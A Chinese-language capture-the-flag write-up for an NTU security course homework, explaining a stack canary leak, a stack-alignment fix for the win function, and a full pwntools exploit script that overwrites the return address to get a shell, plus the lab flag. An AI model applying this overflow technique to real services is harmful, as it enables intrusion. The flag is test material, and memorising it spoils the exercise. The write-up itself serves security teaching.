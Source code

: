 ```yaml
---
title: NTU CS 2023 HW3 Write Up
tags: [eductf, CTF, PWN]

category: "Security/Course/NTU CS/PWN"
---
```


# NTU CS 2023 HW3 Write Up


## Lab-Stackoverflow
Flag: `flag{Y0u_know_hoW2L3@k_canAry}`

### 解題流程與思路
這一題就是前一年的[Leak Canary](https://hackmd.io/@SBK6401/BJijt4A9s)的應用版，當時是用pwndbg，還不知道gef的偉大，總之這一題的思路就是:
1. 接收開shell的function的address(win function)
2. 接收0x20個bytes，分別代表RSP value/Stack Canary/RBP value/RIP
3. 傳送payload過去，分別是`p64(rsp_val) + p64(stack_canary) + p64(rbp_val) + p64(win_addr)`
4. 這樣就可以蓋到RIP後又不會被偵測到canary被改變，return之後拿到shell

:::info
比較值得注意的是，因為我是在公布解答前先自己寫，遇到了return之後拿不到shell的問題，後來經過助教的解釋才知道原來是，開shell的過程中`<do_system+115>  movaps XMMWORD PTR [rsp], xmm1`，RSP必須要是對齊的狀態，也就是最後應該要是0，但可以看下圖，如果直接跳到win function的開頭，rsp就不是0，會偏移8 bytes，所以會出現SIGSEGV
![圖片](https://hackmd.io/_uploads/rJK-2d0ma.png)

解決方式有兩個，一個是少push一次，一個是多pop一次，這樣就可以校正RSP回到0結尾的狀態，所以我們才要在RIP的地方加上(0xf1-0xe9)的offset，讓RIP可以少push一次，這樣就可以解決問題
![圖片](https://hackmd.io/_uploads/ByhF2OCQa.png)

![圖片](https://hackmd.io/_uploads/SyxvoO0Xa.png)
:::

### Exploit - Leak Canary + Control RIP
```python=
from pwn import *

# r = process('./lab')
r = remote('10.113.184.121', 10041)

r.recvuntil(b'Gift: 0x')
win_addr = int(r.recvline().strip(), 16) + (0xf1 - 0xe9)
r.recvuntil(b'Gift2: ')
rsp_val = u64(r.recv(0x8))
stack_canary = u64(r.recv(0x8))
rbp_val = u64(r.recv(0x8))
rip = u64(r.recv(0x8))

log.info(f'win address = {hex(win_addr)}')
log.info(f'RSP value = {hex(rsp_val)}')
log.info(f'Stack Canary = {hex(stack_canary)}')
log.info(f'RBP value = {hex(rbp_val)}')
log.info(f'RIP value = {hex(rip)}')

payload = p64(rsp_val) + p64(stack_canary) + p64(rbp_val) + p64(win_addr)
log.info(f'Payload = {payload}')
# raw_input()
r.sendline(payload)

```